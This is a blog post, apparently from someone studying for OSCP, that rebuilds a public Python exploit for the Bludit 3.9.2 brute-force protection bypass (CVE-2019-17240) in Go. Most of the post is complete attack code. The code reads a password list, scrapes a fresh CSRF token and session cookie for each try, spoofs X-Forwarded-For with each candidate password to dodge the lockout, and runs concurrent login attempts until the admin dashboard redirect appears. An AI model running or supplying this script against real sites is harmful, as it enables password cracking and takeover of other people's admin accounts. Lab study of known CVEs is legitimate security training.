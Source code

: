 ```yaml
---
layout: post
title: Bludit 3.9.2 - Auth Bruteforce Bypass CVE-2019-17240
categories: [golang, cve]
---
```


When self study for OSCP certification,I stumble upon HTB machine that have CVE-2019-17420 vulnerability. I look for public exploit and there was one written in [python](https://www.exploit-db.com/exploits/48942). As challenge for me self was to recreate this exploit in golang. So lets get started. 


Beginning of our script contain imported packages. I decide not to use any third-party packages.

```go
func main() {
	var passwd_file string
	var username string
	var hostname string
	var thread int
	flag.StringVar(&passwd_file, "p", "", "Password file")
	flag.StringVar(&username, "u", "", "Enter username")
	flag.StringVar(&hostname, "l", "", "Hostname eg... http://127.0.0.1/admin/login.php")
	flag.IntVar(&thread, "c", 5, "Threads (default 5)")

	flag.Parse()

	passwords, _ := os.Open(passwd_file)

	scanner := bufio.NewScanner(passwords)
	check_password := make(chan string)
	var wg sync.WaitGroup

	totalRequests := 0
	for i := 0; i < thread; i++ {
		wg.Add(1)
		go func() {
            < OUR IMPORTANT CODE HERE >
		}()
	}

	for scanner.Scan() {
		passwd := scanner.Text()
		check_password <- passwd
	}
	close(check_password)
	wg.Wait()
	if err := scanner.Err(); err != nil {
		log.Fatal(err)
	}

}
```

At beginning of main function are declared our flags. Location of password file, username, full hostname path to login page and threads. I middle of our screen there is go-routine which working on our logic of exploit. Bottom of script will read files line by line and submit it our go-routine to process. 

Logic of our file is here 

```go
go func() {
	for pwd := range check_password {
		resp, err := http.Get(hostname)
		if err != nil {
			log.Fatalln(err)
		}
		body, err := ioutil.ReadAll(resp.Body)
		if err != nil {
				log.Fatalln(err)
		}
		sb := string(body)
		re := regexp.MustCompile(`input type="hidden" id="jstokenCSRF" name="tokenCSRF" value="(.*?)"`)
		rs := re.FindStringSubmatch(sb)

		cookie_all := string(resp.Header["Set-Cookie"][0])
		cookie := strings.Split(cookie_all, ";")

		data := url.Values{}
		data.Set("username", username)
		data.Set("password", pwd)
		data.Set("tokenCSRF", rs[1])

		client := &http.Client{
			CheckRedirect: func(req *http.Request, via []*http.Request) error {
				return http.ErrUseLastResponse
			},
		}

		req, err := http.NewRequest("POST", hostname, strings.NewReader(data.Encode()))
		if err != nil {
			log.Fatalln(err)
		}
		req.Header.Add("Content-Type", "application/x-www-form-urlencoded")
		req.Header.Add("Content-Lenght", strconv.Itoa(len(data.Encode())))
		req.Header.Add("User-Agent", "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0")
		req.Header.Add("Referer", hostname)
		req.Header.Add("X-Forwarded-For", pwd)
		req.Header.Add("Cookie", cookie[0])

		res, err := client.Do(req)
		if err != nil {
			log.Fatalln(err)
		}

		if res.StatusCode == 200 {
			totalRequests++
			if totalRequests%10 == 0 {
				fmt.Printf("Total requests sent: %d \n", totalRequests)
			}
		} else if res.StatusCode == 301 && res.Header["Location"][0] == "/admin/dashboard" {
			fmt.Printf("Total requests sent: %d \n", totalRequests)
			fmt.Printf("==========Password Cracked=============")
			fmt.Printf("Password: %s", pwd)
			os.Exit(0)
			break
		} else {
			log.Println("NO IDEA")
		}
	}
	wg.Done()
}()
```

My go-routine start with accepting string stored in pwd variable which is password I will be testing. At first I did GET request to our victim machine. I need it for 2 reasons. One is cookie BLUDIT-KEY which is changes everytime with new GET request.

![](/images/bludit/cookie.png)

Without this cookie we cannot authenticate. Second is CSRF token.

![](/images/bludit/csrf.png)

Go have module called http. This this module I was able to get cookie from header of response and csrf token from its body. CSRF token was little tricky as it was not that easy as with python. Had to use some woodo regex magic... thank you google and [stackoverflow](https://stackoverflow.com/questions/39908955/golang-regex-get-value-inside-parentheses) :) 

Last thing was to create POST request. Http module has function for it called NewRequest where you can specify your method (GET, POST, PUT...) url of victim and url encoded payload. We need to add some headers as this exploit it required. We also need to supply our cookie.As this NewRequest need to be somehow submitted there is Cliet for it. Problem is with login page when you get authenticate you are usually redirected via 301 and following 200 OK status code. Thats why I keep track of last status code there. Well with [stackoverflow](https://stackoverflow.com/questions/23297520/how-can-i-make-the-go-http-client-not-follow-redirects-automatically) help a little..

Last section is simple comparison is you been redirected and if location to redirection is admin/dashboard which usually sign of successful login.

Full source can be found on mt github [here](https://github.com/spyx/cve-2019-17240)

I hope you enjoy reading it. 
